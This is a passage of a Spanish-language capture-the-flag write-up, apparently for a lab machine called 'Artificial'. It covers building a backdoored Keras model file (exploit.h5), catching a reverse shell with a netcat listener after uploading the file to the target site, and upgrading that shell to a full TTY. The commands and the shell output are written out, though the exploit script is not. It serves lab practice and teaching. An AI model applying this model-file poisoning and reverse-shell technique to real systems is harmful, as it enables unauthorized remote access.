 Antes de ejecutarlo vamos a crearnos un `enviroment` de `python3` en un `docker` tal cual como lo que pone en el `Dockerfile` que tenemos de referencia:

```shell
docker run --rm -it -v $(pwd):/app python:3.8-slim bash

# Dentro del contenedor:
apt update && apt install -y gcc python3-dev
pip install tensorflow-cpu==2.13.1 numpy==1.24.3 h5py
cd /app
python3 exploit.py
```

Esto nos habra generado un archivo `exploit.h5` el cual vamos a cargar en la pagina como si fuera un modelo de `IA` legitimo, pero con una `backdoor` que nos proporcionara una `shell`.

Vamos a ponernos a la escucha antes:

```shell
nc -lvnp <PORT>
```

Ahora si subimos el archivo a la pagina, se nos generara un modelo de `IA` en el cual apareceran `2` botones llamados `View Predictions` y `Delete`, vamos a darla al primer boton, echo esto si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 4444 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.74] 38344
bash: cannot set terminal process group (810): Inappropriate ioctl for device
bash: no job control in this shell
app@artificial:~/app$ whoami
whoami
app
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
